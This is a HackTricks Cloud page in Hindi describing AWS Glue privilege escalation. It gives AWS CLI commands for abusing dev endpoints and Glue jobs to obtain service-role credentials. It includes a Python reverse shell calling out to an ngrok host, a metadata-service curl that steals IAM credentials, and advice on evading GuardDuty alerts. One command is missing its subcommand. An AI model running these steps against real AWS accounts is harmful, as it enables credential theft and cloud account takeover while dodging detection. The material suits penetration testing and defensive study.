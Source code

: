 # AWS - Glue Privesc

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

एक हमलावर जिसके पास `iam:PassRole` और `glue:CreateDevEndpoint` अनुमतियां होती हैं, वह **नया AWS Glue डेवलपमेंट एंडपॉइंट बना सकता है और उसमें मौजूदा सर्विस रोल पास कर सकता है**। इसके बाद, वे SSH के जरिए इंस्टेंस में प्रवेश कर सकते हैं और AWS CLI का उपयोग करके उन अनुमतियों तक पहुंच सकते हैं जिन तक रोल की पहुंच होती है।
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
अब हमलावर को केवल **विकास अंतरापृष्ठ पर SSH के जरिए प्रवेश करना होगा** ताकि वह भूमिकाओं की साख प्राप्त कर सके।
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
हालांकि GuardDuty दस्तावेज़ीकरण में विशेष रूप से उल्लेख नहीं है, Glue Instance से credentials को निकालना एक बुरा विचार होगा। इसके बजाय, **नए instance से सीधे AWS API का उपयोग किया जाना चाहिए**।

**संभावित प्रभाव:** glue service role के लिए Privesc निर्दिष्ट।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`** अनुमति वाला एक हमलावर मौजूदा Glue development endpoint की संबद्ध SSH public key को **अपडेट करने में सक्षम होगा**, फिर उसमें SSH के जरिए प्रवेश कर सकता है और उस role की अनुमतियों तक पहुंच सकता है जिससे वह जुड़ा हुआ है।
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
अब हमलावर को केवल **SSH के माध्यम से विकास एंडपॉइंट में प्रवेश करने की आवश्यकता होगी ताकि वह रोल्स क्रेडेंशियल्स तक पहुँच सके**। AWS API को सीधे नए इंस्टेंस से एक्सेस किया जाना चाहिए ताकि अलर्ट्स को ट्रिगर करने से बचा जा सके।

**संभावित प्रभाव:** ग्लू सर्विस रोल का उपयोग करके प्रिवेस्क प्राप्त किया जा सकता है।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

उन अनुमतियों वाला हमलावर **किसी भी ग्लू सर्विस अकाउंट को जोड़ते हुए एक जॉब बना/अपडेट कर सकता है** और उसे शुरू कर सकता है। जॉब किसी भी पायथन कोड को निष्पादित कर सकती है, इसलिए एक रिवर्स शेल प्राप्त की जा सकती है और उसका उपयोग **IAM क्रेडेंशियल्स चुराने के लिए किया जा सकता है**।
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** glue सेवा भूमिका तक प्रिवेस्क की संभावना।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ, एक हमलावर पहले से जुड़े भूमिका के IAM क्रेडेंशियल्स चुरा सकता है।

**संभावित प्रभाव:** glue सेवा भूमिका से जुड़े प्रिवेस्क की संभावना।

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
